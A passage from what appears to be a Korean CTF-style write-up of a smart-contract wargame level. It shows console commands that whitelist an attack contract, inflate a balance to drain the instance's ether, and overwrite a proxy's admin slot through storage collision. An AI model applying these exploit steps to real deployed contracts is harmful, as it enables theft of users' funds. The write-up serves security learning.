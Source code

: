 ```solidity
    }
}
--------------------------------------------------
주소 : 0x771f1551D5Ed848237ea1FA41137be49375558cb
```

이제 이 공격 컨트랙트의 주소를 화이트리스트에 등록하자.

```solidity
await contract.addToWhitelist('0x771f1551D5Ed848237ea1FA41137be49375558cb')

await contract.whitelisted('0x771f1551D5Ed848237ea1FA41137be49375558cb')
true
```

그리고 이 공격 컨트랙트에서 0.001이더를 보내면서 balances를 증가시켜야 하므로 이 공격 컨트랙트로 0.001이더를 보내놓자.

![0.001이더 전송.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3e55f208-14a0-4b1f-8e33-cefd9e3574f2/0.001%EC%9D%B4%EB%8D%94_%EC%A0%84%EC%86%A1.png)

![이더 도착.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c072c66e-1b45-41c9-9122-b87bfdae568b/%EC%9D%B4%EB%8D%94_%EB%8F%84%EC%B0%A9.png)

그러면 공격 자금인 0.001이더가 도착했으므로 이제 공격을 진행하여 컨트랙트의 balances를 0.002이더로 만들자.

```solidity
(await contract.balances('0x771f1551D5Ed848237ea1FA41137be49375558cb')).toNumber()
2000000000000000
```

attack() 함수를 실행한 후 balances 값을 보면 0.001이더만 전송했는데 0.002이더로 balances가 설정된 것을 볼 수 있다. 이제 내 공격컨트랙트에서 sweepfunds 함수를 통해 execute를 실행시켜서 프록시 컨트랙트에 있는 모든 이더를 탈취하자.

```solidity
await getBalance(contract.address)
'0'
```

인스턴스의 이더가 전부 탈취된 것을 볼 수 있다. 이제 이더가 0이므로 프록시에서 setMaxBalance를 호출하여 프록시의 1번째 슬롯인 admin을 변경할 수 있다.

인자는 uint256형태이므로 내 메타마스크 주소를 uint256 형태로 바꾸어서 인자로 전달을 해줘야한다.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.5;

contract test{
    uint256 public result;
    function encode() public {
        result = uint256(uint160(msg.sender));
    }
}
```

![내 메타마스크 주소.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/390b6871-e02c-4e90-bb5a-0f21f5ec8243/%EB%82%B4_%EB%A9%94%ED%83%80%EB%A7%88%EC%8A%A4%ED%81%AC_%EC%A3%BC%EC%86%8C.png)

내 메타마스크 주소를 uint256으로 변환한 결과는 `751856855013772392084094884552209194018036163482`이다. 

이제 이 값을 인자로 프록시를 거쳐서 setMaxBalance를 실행시켜 프록시의 슬롯1인 admin을 변경해주자.
